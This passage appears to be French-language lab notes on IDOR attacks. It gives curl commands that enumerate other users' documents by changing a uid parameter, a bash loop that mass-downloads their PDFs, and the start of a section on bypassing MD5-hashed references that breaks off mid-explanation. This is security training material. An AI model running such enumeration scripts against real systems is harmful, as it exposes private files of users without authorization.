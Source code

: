 {% code fullWidth="true" %}
```sh
curl -s "http://SERVER_IP:PORT/documents.php?uid=1" | grep "<li class='pure-tree_link'>"

<li class='pure-tree_link'><a href='/documents/Invoice_3_06_2020.pdf' target='_blank'>Invoice</a></li>
```
{% endcode %}

{% code fullWidth="true" %}
```sh
curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```
{% endcode %}

{% code fullWidth="true" %}
```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```
{% endcode %}

***

## <mark style="color:red;">Bypassing Encoded References</mark>

1. **Contexte :**\
   Certaines applis ne montrent pas d’UID en clair, mais encodent ou hachent leurs références d’objets. Cela complique l’énumération, mais reste exploitable si le back-end n’applique pas de contrôle d’accès.
2. **Exemple Employee Manager :**

* Cliquer sur `Employment_contract.pdf` déclenche une requête POST :

```http
POST download.php
contract=cdd96d3cc73d1dbdaffa03cc6cd7339b
```

* Le fichier est référencé par un hachage MD5.

3. **Analyse front-end :**

* Le code JavaScript appelle :
